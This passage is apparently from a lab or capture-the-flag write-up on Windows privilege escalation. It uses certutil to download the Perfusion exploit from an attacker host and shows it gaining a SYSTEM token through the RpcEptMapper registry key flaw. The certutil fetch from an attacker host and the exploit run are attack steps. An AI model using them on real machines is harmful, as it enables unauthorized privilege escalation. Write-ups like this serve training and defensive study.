 ![Alt text](sysinfo.png)

During my reaseach , i found this blog of [ntm4n : An Unconventional Exploit for the RpcEptMapper Registry Key Vulnerability](https://itm4n.github.io/windows-registry-rpceptmapper-exploit/).

now let's compile [`Perfusion`](https://github.com/itm4n/Perfusion) , and transfer it to the target.
```sh
certutil.exe -urlcache -f http://10.8.7.122/Perfusion.exe Perfusion.exe
```
```shell
PS C:\temp> ls


    Directory: C:\temp


Mode                LastWriteTime     Length Name
----                -------------     ------ ----
-a---         9/21/2025   2:56 PM      34816 Perfusion.exe


PS C:\temp> .\Perfusion.exe -c cmd -i
[*] Created Performance DLL: C:\Users\LDAPRE~1\AppData\Local\Temp\2\performance_2936_1
[*] Created Performance registry key.
[*] Triggered Performance data collection.
[+] Exploit completed. Got a SYSTEM token! :)
[*] Waiting for the Trigger Thread to terminate... OK
[!] Failed to delete Performance registry key.
[*] Deleted Performance DLL.
```